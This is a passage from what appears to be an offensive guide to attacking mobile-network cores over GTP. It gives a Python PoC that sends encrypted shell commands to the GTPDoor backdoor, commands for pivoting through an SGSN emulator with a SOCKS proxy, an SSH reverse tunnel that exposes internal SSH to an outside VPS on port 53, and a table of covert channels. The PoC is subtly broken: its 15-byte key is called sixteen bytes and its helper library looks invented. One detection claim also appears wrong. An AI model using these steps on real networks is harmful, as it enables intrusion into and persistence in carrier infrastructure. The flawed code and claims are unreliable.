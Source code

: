 ## 3. Code Execution over GTP – `GTPDoor`

`GTPDoor` is a tiny ELF service that **binds UDP 2123 and parses every incoming GTP-C packet**.  When the payload starts with a pre-shared tag, the remainder is decrypted (AES-128-CBC) and executed via `/bin/sh -c`.  The stdout/stderr are exfiltrated inside **Echo Response** messages so that no outward session is ever created.

Minimal PoC packet (Python):

```python
import gtpc, Crypto.Cipher.AES as AES
key = b"SixteenByteKey!"
cmd = b"id;uname -a"
enc = AES.new(key, AES.MODE_CBC, iv=b"\x00"*16).encrypt(cmd.ljust(32,b"\x00"))
print(gtpc.build_echo_req(tag=b"MAG1C", blob=enc))
```

Detection:
* any host sending **unbalanced Echo Requests** to SGSN IPs
* GTP version flag set to 1 while message type = 1 (Echo) – deviation from spec

## 4. Pivoting Through the Core

### 4.1  `sgsnemu` + SOCKS5
`OsmoGGSN` ships an SGSN emulator able to **establish a PDP context towards a real GGSN/PGW**.  Once negotiated, Linux receives a new `tun0` interface reachable from the roaming peer.

```bash
sgsnemu -g 10.1.1.100 -i 10.1.1.10 -m 40499 -s 404995112345678 \
       -APN internet -c 1 -d
ip route add 172.16.0.0/12 dev tun0
microsocks -p 1080 &   # internal SOCKS proxy
```

With proper firewall hair-pinning, this tunnel bypasses signalling-only VLANs and lands you directly in the **data plane**.

### 4.2  SSH Reverse Tunnel over Port 53
DNS is almost always open in roaming infrastructures.  Expose an internal SSH service to your VPS listening on :53 and return later from home:

```bash
ssh -f -N -R 0.0.0.0:53:127.0.0.1:22 user@vps.example.com
```
Check that `GatewayPorts yes` is enabled on the VPS.

## 5. Covert Channels

| Channel | Transport | Decoding | Notes |
|---------|-----------|----------|-------|
| ICMP – `EchoBackdoor` | ICMP Echo Req/Rep | 4-byte key + 14-byte chunks (XOR) | pure passive listener, no outbound traffic |
| DNS – `NoDepDNS` | UDP 53 | XOR (key = `funnyAndHappy`) encoded in A-record octets | watches for `*.nodep` sub-domain |
| GTP – `GTPDoor` | UDP 2123 | AES-128-CBC blob in private IE | blends with legitimate GTP-C chatter |
